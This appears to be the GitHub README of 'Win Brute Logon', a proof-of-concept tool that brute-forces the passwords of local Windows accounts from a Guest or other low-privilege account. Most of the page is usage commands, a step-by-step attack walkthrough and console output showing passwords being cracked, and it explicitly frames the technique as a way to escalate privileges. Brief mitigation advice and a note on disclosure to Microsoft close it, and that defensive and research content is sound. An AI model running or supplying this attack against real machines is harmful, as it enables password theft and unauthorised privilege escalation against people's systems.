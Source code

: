 ⚠️ This PoC was ported in pure PowerShell: https://github.com/DarkCoderSc/power-brute-logon
⚠️ Windows now enable account lockout by default (finally) which might now prevent this application to accomplish its mission: (ref)[https://www.bleepingcomputer.com/news/microsoft/all-windows-versions-can-now-block-admin-brute-force-attacks/].

# Win Brute Logon (Proof Of Concept)

Release date: `2020-05-14`

Target: Windows XP to Latest Windows 10 Version (1909)

![Console](https://i.ibb.co/Cm5052S/screen.png)

Weakness location : `LogonUserA`, `LogonUserW`, `CreateProcessWithLogonA`, `CreateProcessWithLogonW`

## Usage

### Wordlist File

`WinBruteLogon.exe -u <username> -w <wordlist_file>`

### Stdin Wordlist

`type <wordlist_file> | WinBruteLogon.exe -u <username> -`

# ChangeLog

## 2020/05/23

- Now support stdin for wordlist.
- Few code optimization.

# Introduction

This PoC is more what I would call a serious weakness in Microsoft Windows Authentication mechanism than a vulnerability.

The biggest issue is related to the lack of privilege required to perform such actions.

Indeed, from a Guest account (The most limited account on Microsoft Windows), you can crack the password of any available local users.

Find out which users exists using command : `net user`

This PoC is using multithreading to speed up the process and support both 32 and 64bit.

# PoC Test Scenario (With a Guest Account)

Tested on Windows 10 

Install and configure a freshly updated Windows 10 virtual or physical machine.

In my case full Windows version was : `1909 (OS Build 18363.778)`

Log as administrator and lets create two different accounts : one administrator and one regular user. Both users are local.

/!\ Important notice: I used the Guest account for the demo but this PoC is not only limited to Guest account, it will work from any account / group (guest user / regular user / admin user etc...) 

## Create a new admin user

`net user darkcodersc /add`

`net user darkcodersc trousers` (trousers is the password)

`net localgroup administrators darkcodersc /add`

## Create a regular user

`net user HackMe /add`

`net user HackMe ozlq6qwm` (ozlq6qwm is the password)

## Create a new Guest account

`net user GuestUser /add`

`net localgroup users GuestUser /delete`

`net localgroup guests GuestUser /add`

## Get a Wordlist 

In my case both `trousers` and `ozlq6qwm` are in SecList : https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt

## Start the attack

Logoff from administrator account or restart your machine and log to the Guest account. 

Place the PoC executable anywhere you have access as Guest user.

Usage : `WinBruteLogon.exe -v -u <username> -w <wordlist_file>`

`-v` is optional, it design the verbose mode.

By default, domain name is the value designated by `%USERDOMAIN%` env var. You can specify a custom name with option `-d`

### Crack First User : `darkcodersc` (Administrator)

prompt(guest)>`WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=2260, handle=364
[INFO] New "TWorker" Thread created with id=3712, handle=532
[DONE] Done.
[ OK ] Password for username=[darkcodersc] and domain=[DESKTOP-0885FP1] found = [trousers]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=2260, handle=364) Thread successfully terminated.
[INFO] "TWorkers"(id=3712, handle=532) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

### Crack Second User : `HackMe` (Regular User)

prompt(guest)>`WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=5748, handle=336
[INFO] New "TWorker" Thread created with id=4948, handle=140
[DONE] Done.
[ OK ] Password for username=[HackMe] and domain=[DESKTOP-0885FP1] found = [ozlq6qwm]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=5748, handle=336) Thread successfully terminated.
[INFO] "TWorkers"(id=4948, handle=140) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

# Real world scenario

If you gain access to a low privileged user, you could crack the password of a more privileged user and escalate your privilege.

# Mitigation (General)

- Disable guest(s) account(s) if present.
- Application white-listing.
- Follow the guidelines to create and keep a password strong. Apply this to all users.

## Implement Security Lockout Policy (Not present by default)

Open `secpol.msc` then go to `Account Policies` > `Account Lockout Policy` and edit value `Account lockout threshold` with desired value from (1 to 999).

Value represent the number of possible attempt before getting locked.

/!\ LockDown Policy wont work on Administrator account. At this moment, best protection for Administrator account (if Enabled) is to setup a very complex password.

# Weakness Report

A report was sent to Microsoft Security Team.

They should at least implement by default account lockout. Actually it is not.
